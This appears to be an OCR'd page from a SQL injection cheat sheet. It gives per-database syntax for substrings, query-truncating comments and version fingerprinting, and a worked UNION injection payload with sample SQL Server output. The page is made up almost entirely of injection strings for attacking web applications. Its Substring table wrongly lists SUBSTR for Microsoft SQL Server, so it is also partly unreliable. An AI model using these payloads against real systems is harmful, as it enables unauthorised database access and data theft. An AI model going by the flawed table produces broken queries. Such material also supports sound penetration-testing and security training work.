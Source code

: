 #

## Substring
*You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ``ba``.*

| Type | String |
| --- | --- |
| Oracle   | `SUBSTR('foobar', 4, 2)` |
| Microsoft |  `SUBSTR('foobar', 4, 2)` |
| PostgreSQL | `SUBSTR('foobar', 4, 2)`|
| MySQL | `SUBSTR('foobar', 4, 2)`| 

#

## Comments
*You can use comments to truncate a query and remove the portion of the original query that follows your input.*

| Type | String |
| --- | --- |
| Oracle   |` --comment` |
| Microsoft | `--comment` <br>` /*comment*/ ` |
| PostgreSQL | `--comment` <br>` /*comment*/ ` |
| MySQL | `-- comment` <br>` /*comment*/ ` <br>`#comment`

#

## Database version
*You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.*

| Type | String |
| --- | --- |
| Oracle   | `SELECT banner FROM v$version` <br> `SELECT version FROM v$instance` |
| Microsoft |  `SELECT @@version ` |
| PostgreSQL | `SELECT version() `|
| MySQL | `SELECT @@version `| 

 - For example, you could use a ***UNION*** attack with the following input: 
```sql
' UNION SELECT @@version--
```
This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used:
```sql
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```
